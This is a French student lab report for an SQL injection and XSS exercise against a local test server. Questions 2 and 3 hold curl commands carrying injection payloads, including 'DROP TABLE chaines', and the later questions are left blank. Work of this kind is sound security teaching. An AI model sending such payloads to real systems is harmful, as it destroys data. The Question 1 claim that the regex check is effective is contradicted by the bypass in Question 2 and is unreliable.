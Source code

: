 # Rendu "Injection"

## Binome

Michiels, Pierre, email: pierre.michiels.etu@univ-lille.fr
Saulquin, Clément/Aurélie, email: clement.saulquin.etu@univ-lille.fr


## Question 1

* Quel est ce mécanisme? 
Le mécanisme qui permet d'éviter à l'utilisateur de modifier la table est d'utiliser un script qui vérifie la structure de la chaine de caratère avec une regex.
* Est-il efficace? Pourquoi? 
Ce mécanisme est efficaces. En effet à partir du moment ou on veut exécuter une autre requête SQL à la place de celle prévue, on est obligé de séprarer la requête pirate avec un **;** qui sera automatiquement rejeter par la regex.

## Question 2

* Votre commande curl
Cette commande curl a été obtenue après avoir copier coller la commande curl généré par mon navigateur internte (brave).

```
curl 'http://127.0.0.1:8080/' -H 'Connection: keep-alive' -H 'Cache-Control: max-age=0' -H 'Upgrade-Insecure-Requests: 1' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.67 Safari/537.36' -H 'Origin: http://127.0.0.1:8080' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' -H 'Sec-Fetch-Site: same-origin' -H 'Sec-Fetch-Mode: navigate' -H 'Sec-Fetch-User: ?1' -H 'Sec-Fetch-Dest: document' -H 'Referer: http://127.0.0.1:8080/' -H 'Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7' --data-raw 'chaine=;DROP TABLE chaines;&submit=OK' --compressed
```

## Question 3

* Votre commande curl pour effacer la table

```
curl 'http://127.0.0.1:8080/' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://127.0.0.1:8080' -H 'Connection: keep-alive' -H 'Referer: http://127.0.0.1:8080/' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'chaine=%24%24argent%24%24%27%2C+%27hey%27%29+ # &submit=OK'
```

* Expliquez comment obtenir des informations sur une autre table

## Question 4

Rendre un fichier server_correct.py avec la correction de la faille de
sécurité. Expliquez comment vous avez corrigé la faille.

## Question 5

* Commande curl pour afficher une fenetre de dialog. 

* Commande curl pour lire les cookies

## Question 6

Rendre un fichier server_xss.py avec la correction de la
faille. Expliquez la demarche que vous avez suivi.


